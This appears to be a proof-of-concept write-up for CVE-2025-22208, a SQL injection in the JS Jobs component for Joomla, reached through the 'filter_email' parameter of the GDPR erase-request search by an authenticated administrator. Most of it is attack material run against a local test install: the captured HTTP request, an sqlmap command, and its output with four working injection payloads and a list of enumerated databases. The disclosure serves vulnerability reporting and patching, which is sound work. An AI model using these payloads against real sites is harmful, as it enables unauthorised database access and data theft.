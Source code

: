 # CVE-2025-22208: JS Jobs SQL injection vulnerability

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22208

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'filter_email' parameter in the GDPR Erase Data Request search feature.

## POC
To exploit this vulnerability, go to 'Dashboard >> GDPR >> Erase Data Request >> Search' and capture the search Useremail request. Save that request to a file (req.txt) and run SQLMap through the file to exploit the vulnerable parameter (filter_email).

![Alt text](2.png)

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 77
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=gdpr&view=gdpr&layout=erasedatarequests
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 540e9ab0c71c4445060a757b38444b04=64de8ff28342024d979552d8ff96e3cb; 58f028dd2afd9618c7033dd698dbf770=734e1e9a18b54f3f0a547799648d236e; f1b049cf45956510881f9283cc70983f=df845e612a28854cd04a392e5aac5505; 954f55fc9005096c1cbc635a7c8608fc=294bd118db443aa54b1be9313c54e685
Connection: keep-alive

filter_email=test&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
```

**Exploit:**
```
ubuntu@host:~/sqlmap$ python3 sqlmap.py -r ~/req.txt --batch --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter_email (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: filter_email=test' AND EXTRACTVALUE(5420,CASE WHEN (5420=5420) THEN 5420 ELSE 0x3A END)-- dphL&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter_email=test' AND GTID_SUBSET(CONCAT(0x7178717071,(SELECT (ELT(4721=4721,1))),0x716b6b7671),4721)-- AoFU&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter_email=test' AND (SELECT 7546 FROM (SELECT(SLEEP(5)))IRqy)-- tkAY&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: filter_email=test' UNION ALL SELECT NULL,CONCAT(0x7178717071,0x7071627259697252544c554b76616c4e794d4a6e4156424f6d7977616b507468704a556f646f4250,0x716b6b7671),NULL,NULL,NULL,NULL,NULL,NULL#&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
